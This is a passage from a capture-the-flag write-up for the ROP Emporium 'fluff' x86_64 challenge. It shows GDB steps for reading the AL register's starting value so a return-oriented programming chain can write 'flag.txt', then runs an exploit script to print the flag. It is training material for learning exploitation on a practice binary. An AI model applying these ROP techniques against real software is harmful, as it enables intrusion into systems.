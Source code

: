 ## Correcting for Existing Value of AL
- For 2nd iteration of loop onward (e.g. characters `"l"`, `"a"`, `"g"`, `"."`, `"t"`, `"x"`, `"t"`), then the value of AL is known (i.e. the value of the **previous** character)
- However, for the first iteration (e.g. trying to set character `"f"`), we need to look at the state of the program's registers at the point of execution, so step through program in GDB:
> $ `gdb -q ./fluff`  
> (gdb) `start`  
> (gdb) `disass pwnme`  
```
   0x00007efc2f06392f <+133>:	call   0x7efc2f063770 <read@plt>
   0x00007efc2f063934 <+138>:	lea    rdi,[rip+0x110]        # 0x7efc2f063a4b
   0x00007efc2f06393b <+145>:	call   0x7efc2f063730 <puts@plt>
   0x00007efc2f063940 <+150>:	nop
   0x00007efc2f063941 <+151>:	leave  
   0x00007efc2f063942 <+152>:	ret   
```
- Set breakpoint at `ret` instruction and continue
> (gdb) `b *pwnme+152`  
> (gdb) `c`  
```
Continuing.
fluff by ROP Emporium
x86_64

You know changing these strings means I have to rewrite my solutions...
> AAAAAAAA
Thank you!
```
- Look up current value of AL:
> (gdb) `p/x $al`  
```$1 = 0xb```
- Therefore, need to adjust for `0x0b` in first iteration of loop

## Get Flag
- Place script the [get_flag.py](./get_flag.py) Python script in the same folder as the challenge's files, then run the script:
> $ `python get_flag.py`  
```
fluff by ROP Emporium
x86_64

You know changing these strings means I have to rewrite my solutions...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
